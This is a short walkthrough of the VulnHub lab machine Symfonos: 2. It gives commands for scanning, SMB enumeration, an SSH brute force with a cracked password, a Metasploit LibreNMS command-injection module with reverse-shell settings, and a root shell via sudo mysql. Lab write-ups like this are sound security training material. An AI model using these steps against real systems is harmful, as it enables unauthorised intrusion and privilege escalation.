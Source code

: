 
# Symfonos: 2 Walkthrough

**VulnHub Link:** [Symfonos: 2](https://www.vulnhub.com/entry/symfonos-2,331/)
**Difficulty:** Easy
**Release Date:** 18 Jul 2019


## 1. Reconnaissance
	
	nmap -O -T4 -A -P -sV 192.168.100.126



## 2. Enumeration
	
	enum4linux 192.168.100.126 
	aeolus and cronus users found.!
	
	smbmap -H '192.168.100.126' -u '' -p ''
	smbclient //192.168.100.126/anonymous 



## 3. Brute Force
	
	hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.126 -I
	or another brute force tool as you wish

	aeolus password found --> sergioteamo
		
	ssh -L 8080:localhost:8080 aeolus@192.168.100.126
	
	then --> librenms website opened.



## 4. Exploitation
	
	msfconsole -q
	use /linux/http/librenms_addhost_cmd_inject

	setting options correctly (RHOSTS 127.0.0.1,RPORT 8080,LHOST wlan0 or eth0,LPORT 4444)
	
	crunus user's shell opened 


## 5. Privilege Escalation
	
	sudo -l --> /usr/bin/mysql can be run as root
	sudo ./mysql -e '\! /bin/sh' 
	
	AND BINGO..! 
	
	Root flag captured..!

		

